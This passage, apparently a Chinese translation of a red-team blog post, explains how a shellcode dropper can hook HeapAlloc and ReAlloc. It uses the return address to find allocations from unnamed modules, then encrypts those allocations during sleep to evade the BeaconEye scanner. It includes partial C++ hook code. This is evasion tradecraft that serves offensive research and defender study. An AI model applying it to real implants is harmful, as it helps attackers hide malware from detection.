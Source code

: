 这样做是为了重新分配内存，执行清除操作是为了释放内存，别忘了：现在目标是一个线程！到目前为止，事情看上去很简单。但还记得之前的那个问题，我们不得不挂起其他线程的原因吗？在我们及时解密之前，WININET 和 RPC 调用仍然会试图访问加密的内存。这里有几个选项，但我使用了自认为很有趣的一个。由于加载的 shellcode 既不是有效的 EXE 也不是 DLL，因此，我能够从任何发起调用的对象中分配内存，这些调用源自没有名称的模块。

为了让这个机制起作用，我们需要解析进行函数调用的模块。为此，这可以通过以下代码：

```plain
#include 
#pragma intrinsic(_ReturnAddress)
GlobalThreadId = GetCurrentThreadId(); We get the thread Id of our dropper!
HookedHeapAlloc (Arg1, Arg2, Arg3) {
    LPVOID pointerToEncrypt = OldHeapAlloc(Arg1, Arg2, Arg3);
    if (GlobalThreadId == GetCurrentThreadId()) { // If the calling ThreadId matches our initial thread id then continue

      HMODULE hModule;
      char lpBaseName[256];
    if (::GetModuleHandleExA(GET_MODULE_HANDLE_EX_FLAG_FROM_ADDRESS, (LPCSTR)_ReturnAddress(), &hModule) == 1) {
           ::GetModuleBaseNameA(GetCurrentProcess(), hModule, lpBaseName, sizeof(lpBaseName));
         }
        std::string modName = lpBaseName;
        std::transform(modName.begin(), modName.end(), modName.begin(),
                [](unsigned char c) { return std::tolower(c); });
        if (modName.find("dll") == std::string::npos && modName.find("exe") == std::string::npos) {
                     // Insert pointerToEncrypt variable into a list
        }
    }
}
```

上面的代码用于获取 intrinsic 函数\_ReturnAddress，并利用它与 GetModuleHandleEx 和 GET\_MODULE\_HANDLE\_EX\_FLAG\_FROM\_ADDRESS 标志来识别是哪个模块发起的这个调用。然后，我们可以把它转换成小写的字符串，如果这个字符串不包含 DLL 或 EXE，我们将其插入。有了这个，就获得了一个稳定的分配列表，就可以在休眠时进行加密了。不过，你将需要为挂钩的重新分配函数重复这个过程。

为了执行加密操作，需要遍历这个列表并加密这些分配的内存，但是不能用 HeapWalk() 函数。这将取决于你是否决定使用 map、向量、链接列表或其他数据结构。你可能想把真正的 HeapAlloc 或 ReAlloc 返回的指针存储到数组中，遍历数组并按大小对那里的数据进行加密。上面的例子中的 Arg3 就是存放的内存大小数据（[https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc](https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc)）。

所以，现在我们可以钩住四个不同的函数，根据线程 ID 将分配的内存地址放到一个向量中，然后遍历向量并在休眠时加密每个地址。如果成功，我们应该能够再次绕过 BeaconEye。

现在是演示时间！同样，为了演示的目的，我们不会让休眠时间为 1 或更少。
